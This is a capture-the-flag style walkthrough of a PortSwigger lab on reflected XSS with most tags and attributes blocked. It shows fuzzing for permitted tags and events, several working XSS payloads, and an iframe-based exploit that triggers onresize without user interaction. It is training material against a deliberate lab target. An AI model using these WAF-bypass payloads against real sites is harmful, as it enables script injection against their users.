 
# Reflected XSS into HTML context with most tags and attributes blocked

This lab contains a reflected XSS vulnerability in the search functionality but uses a web application firewall (WAF) to protect against common XSS vectors.

To solve the lab, perform a cross-site scripting attack that bypasses the WAF and calls the print() function.

Note: Your solution must not require any user interaction. Manually causing print() to be called in your own browser will not solve the lab.

---------------------------------------------

References: 

- https://portswigger.net/web-security/cross-site-scripting/exploiting

- https://portswigger.net/web-security/cross-site-scripting/cheat-sheet

---------------------------------------------

The content of the search is reflected inside a h1 HTML element:



![img](images/Reflected%20XSS%20into%20HTML%20context%20with%20most%20tags%20and%20attributes%20blocked/1.png)



If we try to add a tag "<h1>" it gets blocked:



![img](images/Reflected%20XSS%20into%20HTML%20context%20with%20most%20tags%20and%20attributes%20blocked/2.png)


But not if it is "<h2>":



![img](images/Reflected%20XSS%20into%20HTML%20context%20with%20most%20tags%20and%20attributes%20blocked/3.png)


With this payload the HTML is generated correctly:

```
<h3>a</h3>
```



![img](images/Reflected%20XSS%20into%20HTML%20context%20with%20most%20tags%20and%20attributes%20blocked/4.png)


With this payload it says “Attribute is not allowed”:

```
<h3 onerror=alert(1)>a</h3>
```



![img](images/Reflected%20XSS%20into%20HTML%20context%20with%20most%20tags%20and%20attributes%20blocked/5.png)


I sent it to Intruder and got all events from https://portswigger.net/web-security/cross-site-scripting/cheat-sheet:  



![img](images/Reflected%20XSS%20into%20HTML%20context%20with%20most%20tags%20and%20attributes%20blocked/6.png)


The only ones working:
- onbeforeinput
- onratechange
- onscrollend
- onresize



![img](images/Reflected%20XSS%20into%20HTML%20context%20with%20most%20tags%20and%20attributes%20blocked/7.png)


I will do the same for the tags, in this case using Battery Ram attack type:



![img](images/Reflected%20XSS%20into%20HTML%20context%20with%20most%20tags%20and%20attributes%20blocked/8.png)


The only ones working:
- custom tags
- body



![img](images/Reflected%20XSS%20into%20HTML%20context%20with%20most%20tags%20and%20attributes%20blocked/9.png)



The information in the cheatsheet from these attributes is:









![img](images/Reflected%20XSS%20into%20HTML%20context%20with%20most%20tags%20and%20attributes%20blocked/10.png)
![img](images/Reflected%20XSS%20into%20HTML%20context%20with%20most%20tags%20and%20attributes%20blocked/11.png)
![img](images/Reflected%20XSS%20into%20HTML%20context%20with%20most%20tags%20and%20attributes%20blocked/12.png)
![img](images/Reflected%20XSS%20into%20HTML%20context%20with%20most%20tags%20and%20attributes%20blocked/13.png)



So we have 3 possible payloads, because as "audio" and “video” tags are not available we can not use "onratechange":

```
<xss contenteditable onbeforeinput=alert(1)>test
<xss onscrollend=alert(1) style="display:block;overflow:auto;border:1px dashed;width:500px;height:100px;"><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><span id=x>test</span></xss>
<body onresize="print()">
```


Regarding the "onscrollend" payload, I updated it because it can not use “br” or “span”. However, it is necessary to scroll to the top or the bottom to see the alert pop:

```
<xss onscrollend=alert(1) style="display:block;overflow:auto;border:1px dashed;width:500px;height:100px;"><h2>a</h2><h3 id=x>test</h3></h3>
```



![img](images/Reflected%20XSS%20into%20HTML%20context%20with%20most%20tags%20and%20attributes%20blocked/14.png)


Regarding the “onbeforeinput” payload, it is necessary to click the text and update it for the alert to pop:

```
<xss contenteditable onbeforeinput=alert(1)>test</xss>
```



![img](images/Reflected%20XSS%20into%20HTML%20context%20with%20most%20tags%20and%20attributes%20blocked/15.png)



The third one is valid but it needs the user to change the size of the tab:

```
<body onresize="print()">
```



![img](images/Reflected%20XSS%20into%20HTML%20context%20with%20most%20tags%20and%20attributes%20blocked/16.png)



We will send this last one inside an iframe:

```
https://0ad100ff04e7e76582e088af00ae0026.web-security-academy.net/?search=%3Cbody+onresize%3Dprint%28%29%3E
```

```
<iframe src="https://0ad100ff04e7e76582e088af00ae0026.web-security-academy.net/?search=%3Cbody+onresize%3Dprint%28%29%3E" height="100%" title="Iframe Example" onload=body.style.width='100%'></iframe>
```
